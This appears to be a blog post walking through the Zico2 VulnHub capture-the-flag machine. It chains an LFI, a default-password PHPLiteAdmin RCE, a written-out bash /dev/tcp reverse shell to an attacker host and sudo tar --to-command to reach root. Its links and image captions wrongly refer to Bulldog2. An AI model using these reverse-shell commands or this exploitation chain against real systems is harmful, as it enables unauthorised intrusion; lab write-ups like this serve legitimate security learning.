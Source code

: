 ```yaml
---
layout: post
title: Zico2 Walkthrough
published: true
---
```

Here we go. Walkthrough for [Zico2]([Vulnhub](https://www.vulnhub.com/entry/bulldog-2,246/)) is happening in 3....2....1.


 
      ****Spoiler Alert****          ****Spoiler Alert****




For me this was a sleeper of a CTF. I had the box right up to a low privilege shell in a matter of minutes, but popping a shell and escalating from there took much longer than I anticipated. It was a very informative and fun VM. Let's get to crack'n!

Initial Nmap shows HTTP, SSH, & RPC:

![Bulldog2 NmapOutput]({{ site.url }}/images/Zico2/nmap.JPG)

Let's see what's showing up on HTTP:

![Bulldog2 Base]({{ site.url }}/images/Zico2/base_page.JPG)

Zico's Shop? Looks ? Questionable...  
So looking at the source here shows us the following:  
![Bulldog2 Source]({{ site.url }}/images/Zico2/basepage_source_lfi.JPG)  

Let's see if view.php is susceptible to a Local File Inclusion (LFI) vulnerability here:  
![Bulldog2 LFI]({{ site.url }}/images/Zico2/lfi.JPG)  

Bingo! Although this appeared to be just one vulnerability that had to be chained to another to exploit this system. Let's ennumerate a little more using Nikto & Directory Buster:  
![Bulldog2 Nikto]({{ site.url }}/images/Zico2/nikto.JPG)
![Bulldog2 Dirb]({{ site.url }}/images/Zico2/dirb.JPG)  

Ok, dirb gave us quite a bit here to take a look at.  

If we browse to the /dbadmin directory we're hit with directory browsing with a single test_db.php file, and going to that file we see a login for a PHPLiteAdmin v1.9.3 instance.  
![Bulldog2 PHPLiteAdmin]({{ site.url }}/images/Zico2/phpliteadmin.JPG)   
A quick Google shows us that the default password for this installation is "admin". In this particular instance it is not changed after installation.  
Once logged in I was able to find two hashes for a "root" and "zico" account. They cracked fairly easily via Hashcat. Unfortunately I was not able to find any uses for these and it looks like these were red herrings <*)))><  

Not seeing anything obvious here let's search Exploit-DB:
![Bulldog2 Sploit]({{ site.url }}/images/Zico2/sploit.JPG)  

That's more like it, matching our version at 1.9.3, we see an RCE right up our alley.  

The RCE is pretty straight-forward. Creating a database with the .php extension in this version of PHPLiteAdmin, will not change the extension. So if we create one of these databases, create a table with PHP code, and use our previously found LFI to trigger the database file, the PHP code is interpreted. Let's see if we can actually make this work with a simple PHPInfo statement:  

![Bulldog2 Sploit_Test]({{ site.url }}/images/Zico2/exploit_test.JPG)  

Going from a simple PHPInfo command to uploading a shell took a bit longer to figure out syntax-wise:  

![Bulldog2 Shell_Up]({{ site.url }}/images/Zico2/shell_upload.JPG)  

This is a simple Bash script with the following quick shell syntax:  
	bash -i >& /dev/tcp/x.x.x.x/PORT 0>&1  
Triggering the reverse shell in the same way gives us low privilege access to the www-data account. After the shell was popped, I upgraded to PTY via:  
	python -c 'import pty; pty.spawn("/bin/bash")'
Poking around via the usual checks didn't turn up much. We have read access to many files in /home/zico though. I wonder if there are any passwords I can use here for additional escalations?  

![Bulldog2 WP]({{ site.url }}/images/Zico2/wp-config.JPG)  

Interesting. Zico chose his user account for the WordPress installation. Lets dump our current shell and SSH into his account to check sudo privileges:

![Bulldog2 Sudo]({{ site.url }}/images/Zico2/zico_sudo.JPG)  

Cool. Tar & Zip can be run as root with no password checks. I'm pretty sure this is the escalation path at this point, but how can we escalate with just these?  

I wasn't sure which one to focus on and so decided to check the .bash_history. There was evidence of Zico running _sudo -u root /bin/tar --usage_ so that's where we need to look!  

Checking the usage switch, I saw the _--to-command_ switch. This switch will take the contents of a tar'd file and run the specified commands against each line of the file. Googling a few examples I created another reverse shell Bash script similar to the one from earlier, tar'd the file, setup my NetCat listener on my attacker machine and ran the following:  

![Bulldog2 Trigger_Root]({{ site.url }}/images/Zico2/tar-command.JPG)  
![Bulldog2 Root_Shell]({{ site.url }}/images/Zico2/root_shell.JPG)  

Boom! Let's grab our flag:  

![Bulldog2 Flag]({{ site.url }}/images/Zico2/flag.JPG)




















